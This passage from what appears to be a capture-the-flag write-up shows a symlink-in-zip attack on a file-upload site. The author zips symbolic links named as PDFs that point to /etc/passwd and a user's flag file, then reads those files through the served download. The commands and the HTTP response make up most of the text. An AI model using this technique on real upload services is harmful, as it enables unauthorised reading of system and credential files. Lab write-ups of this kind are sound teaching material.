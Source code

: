 So how will the site handle a symbolic link with a `.pdf` extension? I’ll create one:

```

oxdf@hacky$ ln -s /etc/passwd passwd.pdf
oxdf@hacky$ ls -l passwd.pdf 
lrwxrwxrwx 1 oxdf oxdf 11 Jan  8 18:07 passwd.pdf -> /etc/passwd
oxdf@hacky$ zip --symlinks passwd.zip passwd.pdf 
  adding: passwd.pdf (stored 0%)
oxdf@hacky$ unzip -l passwd.zip 
Archive:  passwd.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       11  2024-01-08 18:09   passwd.pdf
---------                     -------
       11                     1 file

```

It’s important to give `zip` the `--symlinks` argument, or else `zip` will follow the link and put a copy of my `/etc/passwd` into the archive.

It uploads just fine:

![image-20240108181524507](/img/image-20240108181524507.png)

Clicking the link shows an empty PDF:

![image-20240108181023657](/img/image-20240108181023657.png)

If I look in Burp, I’ll see that’s because the browser is trying to render a PDF, but the response isn’t a PDF:

![image-20240108181545476](/img/image-20240108181545476.png)

That’s file read!

I’ll note the user on this box is rektsu, and there’s also a mysql user. In fact, I can make a payload that will return the user flag:

```

oxdf@hacky$ ln -s /home/rektsu/user.txt user.pdf
oxdf@hacky$ zip --symlinks user.zip user.pdf 
  adding: user.pdf (stored 0%)

```

On viewing it:

```

HTTP/1.1 200 OK
Date: Mon, 08 Jan 2024 23:19:47 GMT
Server: Apache/2.4.54 (Ubuntu)
Last-Modified: Mon, 08 Jan 2024 23:19:46 GMT
ETag: "21-60e776efd7648"
Accept-Ranges: bytes
Content-Length: 33
Connection: close
Content-Type: application/pdf

ea9a4d59************************

```
